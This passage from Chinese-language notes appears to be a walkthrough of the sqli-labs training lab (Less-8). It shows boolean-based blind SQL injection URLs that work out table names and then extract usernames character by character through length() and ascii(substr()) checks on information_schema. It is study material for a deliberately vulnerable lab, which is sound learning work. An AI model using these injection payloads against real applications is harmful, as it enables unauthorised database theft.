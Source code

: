    ```sql
   http://localhost:7036/sqli-labs/Less-8/
   ?id=1' and length((select table_name from 
   information_schema.tables 
   where table_schema=database() limit 0,1))=6 -- s  (例子：emails)
   
   #limit 0,1 限制此时判断的为第1个表
   #limit 1,1 限制此时判断的为第2个表
   
   ... ...依此类推
   ```

5.   判断表名具体字符（方法同上 二分法 判断ascii码）
   
   ```sql
   http://localhost:7036/sqli-labs/Less-8/
   ?id=1' and ascii(substr((select table_name from 
   information_schema.tables where 
   table_schema=database() limit 0,1),1,1))=101 -- s  #(e)
                              ||    ||
                           第1个表  第一个字符
   
   http://localhost:7036/sqli-labs/Less-8/
   ?id=1' and ascii(substr((select table_name from 
   information_schema.tables where 
   table_schema=database() limit 0,1),2,1))=101 -- s  #(m)
   
   ...  ...
   直到找到所有表以及表名   或者想要的用户表
   ```

6. 找到想要的表以及字段（方法同上）后，获取内容
   
   ```sql
   users表为例  字段为username  数据为Dumb
   #判断数据长度
   http://localhost:7036/sqli-labs/Less-8/
   ?id=1' and length((select username from users limit 0,1))=4 -- s
   #limit 0,1 表示第1条数据
   #limit 1,1 表示第2条数据
   ... ...
   
   #判断内容
   http://localhost:7036/sqli-labs/Less-8/
   ?id=1' and ASCII(substr((select username from 
   users limit 0,1),1,1))=68 -- s
                  ||
                 第一个字符=68  =》D   
   ... ...
   依此类推 第一条数据为  Dumb
   直到判断出username字段所有数据
   ```

##### 第9关
